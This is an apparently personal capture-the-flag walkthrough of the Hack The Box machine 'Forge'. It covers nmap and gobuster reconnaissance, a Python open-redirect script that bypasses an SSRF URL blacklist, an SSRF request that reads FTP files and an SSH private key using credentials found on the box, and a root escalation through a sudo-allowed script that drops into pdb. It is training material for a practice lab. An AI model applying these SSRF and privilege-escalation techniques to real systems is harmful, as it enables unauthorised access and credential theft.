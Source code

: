 ```yaml
---
title: "Forge"
date: 2022-07-29T12:26:51-04:00
draft: true
---
```


```nohighlight
# Nmap 7.92 scan initiated Wed Jul 27 18:34:26 2022 as: nmap -sS -sCV -oA scans/nmap/init 10.10.11.111
Nmap scan report for 10.10.11.111
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 27 18:34:35 2022 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

- nmap does not follow redirect to http://forge.htb, add it to /etc/hosts and run gobster vhost
    - ftp is also filtered, yay

```nohighlight
trent@kali[Forge]$ cat /etc/hosts
...
10.10.11.111    forge.htb admin.forge.htb
...
```

```nohighlight
trent@kali[Forge]$ gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/27 18:49:01 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]

===============================================================
2022/07/27 18:49:25 Finished
===============================================================
```

![Admin interface only available on localhost](/images/forge/website/admin/only_localhost_allowed.png)

![Homepage for http://forge.htb](/images/forge/website/homepage.png)

- http://forge.htb/upload can be used to upload images by file or url
 
- uploading by url and making it callback to a netcat listener shows the request was made by
  python-requests/2.25.1, so the server is likely running some python web server

![Upload from url](/images/forge/website/upload_from_url.png)
![python-requests version](/images/forge/website/python_requests_callback.png)

- url uploads only accept http/https

![Blacklist protocols](/images/forge/website/forge_htb_blacklisted_url_uploads.png)

- Cant make requests to http://forge.htb or http://admin.forge.htb

![Blacklisted urls](/images/forge/website/forge_htb_blacklisted_url_uploads.png)

- we can get around the blacklist by redirecting to where we actually want to go. We then can
  navigate to the generated link on the website and we can view the raw page in burpsuite

```python
#!/usr/bin/env python3

# https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#bypass-via-redirect
# python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

- We cant see the site in the browser cause it tries to render the page as a jpg, but we can see the
  html in Burpsuite

![Successful ssrf attack](/images/forge/website/admin/homepage_html_via_ssrf_redirect.png)

- we have found some ftp creds, yay
    - user:heightofsecurity123!

![FTP credentials and internal /upload](/images/forge/website/admin/announcements.png)

- making a call to http://admin.forge.htb with the creds shows the ftp files, had to escape the ! in
  the password to make the script work
  
```class="nohighlight"
trent@kali[Forge]$ ./redirect.py "http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123%21@10.10.11.111"
10.10.11.111 - - [28/Jul/2022 17:14:08] "GET / HTTP/1.1" 302 -
```

- running the same script to search for .ssh in ftp shows there is an id_rsa there. Score

![ftp ssh folder](/images/forge/ftp/ssh_folder.png)
![ftp id_rsa](/images/forge/ftp/id_rsa.png)

- we can then login as the "user" user with ssh

![Shell as user](/images/forge/shell_as_user.png)
![User flag](/images/forge/user_get.png)

- running linpeas shows "user" can run "/usr/bin/python3 /opt/remote-manage.py" without a password 

![linpeas sudo -l results](/images/forge/linpeas/sudo_l.png)

```python
# /opt/remote-manage.py

#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

- script runs pdb when it hits an exception, which we can force by sending a lot of characters to
  the socket.
    - To do this, we need to open an ssh session that runs the script, and another that connects to
      it, since it only listens on localhost
    - then we can import os and execute code from there in pdb
    - UPDATE: it actually just needs to be a non number, but 1024 "A" also works

![Shell as root](/images/forge/shell_as_root.png)
![Root flag](/images/forge/root_get.png)

